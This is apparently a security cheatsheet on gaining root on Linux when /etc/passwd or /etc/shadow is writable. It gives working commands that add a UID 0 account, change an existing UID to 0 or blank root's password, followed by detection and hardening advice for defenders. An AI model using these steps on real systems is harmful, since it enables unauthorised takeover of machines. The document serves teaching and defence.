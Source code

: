 ## 🗃️ Cheatsheet: Writable /etc/passwd & /etc/shadow

The `/etc/passwd` file stores user account information, and `/etc/shadow` stores the hashed passwords. If an attacker can write to `/etc/passwd`, they can create a new user with root privileges, change their own user ID to root, or remove a user's password entirely. It's a direct and devastatingly effective path to privilege escalation.

### ## What to Look For (Reconnaissance)

This vulnerability is incredibly easy to spot. The attacker just needs to check the permissions of two files.

* **Check File Permissions:**
    ```bash
    ls -l /etc/passwd
    ls -l /etc/shadow
    ```
* **What to Look For:**
    * **`/etc/passwd`:** The correct permission is `644` (`-rw-r--r--`). If you see write permissions for the "group" or "others" (e.g., `-rw-rw-r--` or `-rw-rw-rw-`), the file is vulnerable.
    * **`/etc/shadow`:** The correct permission is `640` (`-rw-r-----`) or stricter (`600`). If anyone other than the `root` user or `shadow` group can read or write to this file, it's a critical vulnerability.

---

### ## Common Exploitable Scenarios & Payloads

If `/etc/passwd` is writable, an attacker has several ways to become root.

#### **Scenario 1: Writable `/etc/passwd` (Most Common)**
The structure of a line in `/etc/passwd` is: `username:password:UID:GID:comment:home_dir:shell`. The `password` field is an `x` placeholder, indicating the real hash is in `/etc/shadow`.

* **Method A: Add a New Root User**
    1.  **Generate a password hash.** An attacker can use OpenSSL to create a compatible hash.
        ```bash
        # The '-salt' can be any short string
        openssl passwd -1 -salt attack 'password123'
        # Output: $1$attack$p1Vd2k2I72o7Yd11N1Y10/
        ```
    2.  **Craft the new user line.** The key is setting the **UID and GID to 0**, which is root.
        ```
        newroot:$1$attack$p1Vd2k2I72o7Yd11N1Y10/:0:0:New Root:/root:/bin/bash
        ```
    3.  **Append the line to `/etc/passwd`** and switch to the new user.
        ```bash
        echo "newroot:\$1\$attack\$p1Vd2k2I72o7Yd11N1Y10/:0:0:New Root:/root:/bin/bash" >> /etc/passwd
        su newroot
        # Enter 'password123'
        whoami
        # Output: root
        ```

* **Method B: Change Your UID to 0**
    If you are logged in as a user (e.g., `attacker` with UID `1001`), you can simply edit the file to change your UID to `0`. The next time you log in, you will be root.
    ```bash
    # Find your line: attacker:x:1001:1001::/home/attacker:/bin/bash
    # Change it to:   attacker:x:0:0::/home/attacker:/bin/bash
    ```

* **Method C: Blank Root's Password**
    This is noisy but effective. By removing the `x` from root's entry, you tell the system there is no password.
    ```bash
    # Change: root:x:0:0:root:/root:/bin/bash
    # To:     root::0:0:root:/root:/bin/bash
    ```
    You can then `su root` without a password.

#### **Scenario 2: Writable `/etc/shadow`**
If `/etc/shadow` is writable, an attacker can replace root's password hash with their own known hash.

---

### ## 🛡️ Detection & Remediation (For Defenders)

#### **How to Detect an Attempt**

* **File Integrity Monitoring (FIM):** This is the **most critical defense**. Tools like **AIDE**, **Tripwire**, or **Wazuh** must be configured to monitor `/etc/passwd` and `/etc/shadow`. Any change to these files should trigger an immediate, high-priority security alert.
* **Audit Logs:** Configure system auditing (`auditd`) to log all write access to these files and review the logs.

#### **How to Prevent This Vulnerability**

* **Enforce Correct Permissions:** This is the primary fix. Ensure permissions are set correctly and audit them regularly.
    ```bash
    # Correct permissions for /etc/passwd
    sudo chown root:root /etc/passwd
    sudo chmod 644 /etc/passwd

    # Correct permissions for /etc/shadow
    sudo chown root:shadow /etc/shadow
    sudo chmod 640 /etc/shadow
    ```
* **Use the Immutable Attribute:** As a powerful hardening step, make the files immutable. This prevents **everyone**, including root, from modifying them until the attribute is removed. This stops attackers even if they gain root through another method.
    ```bash
    # Make files immutable
    sudo chattr +i /etc/passwd
    sudo chattr +i /etc/shadow

    # To make changes later, you must first remove the attribute
    # sudo chattr -i /etc/passwd
    ```
* **Regular Audits:** Run a simple script or cron job that checks the permissions of these files and alerts you if they are ever changed from the secure baseline.
